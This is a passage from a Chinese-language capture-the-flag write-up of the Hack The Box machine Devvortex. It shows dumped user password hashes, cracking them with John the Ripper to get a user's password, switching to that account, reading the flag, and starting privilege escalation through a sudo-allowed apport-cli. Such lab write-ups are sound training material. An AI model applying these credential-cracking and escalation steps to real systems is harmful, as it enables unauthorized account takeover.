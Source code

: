 ```bash
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
```

将sd4fg_users表的数据复制一下然后稍微整理，准备john暴破：
```bash
└─$ fgrep $2y$10$ creds-mysql.txt | awk -F '|' '{print $4 $6}' | awk '{print $1,$2}' | tr ' ' ':' > creds-mysql-trim.txt
                                                                                                                   
└─$ cat creds-mysql-trim.txt           
lewis:$2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u
logan:$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12

└─$ john --wordlist=/usr/share/wordlists/rockyou.txt creds-mysql-trim.txt   
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (logan)
 (...)
```

突然想起来lewis就是我们进MySQL的用户。logan用户也暴破出来了，那么就切换用户。之前看home目录也有logan，估计user flag就在这了：
```bash
www-data@devvortex:/$ su logan
Password: 
logan@devvortex:/$ id
uid=1000(logan) gid=1000(logan) groups=1000(logan)
logan@devvortex:/$ cd
logan@devvortex:~$ ls
user.txt
logan@devvortex:~$ cat user.txt 
d0a5 (...) acf4
```


## Privilege Escalation

有密码先直接看看 `sudo -l`，有一条命令，很有可能这就是突破口：
```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```
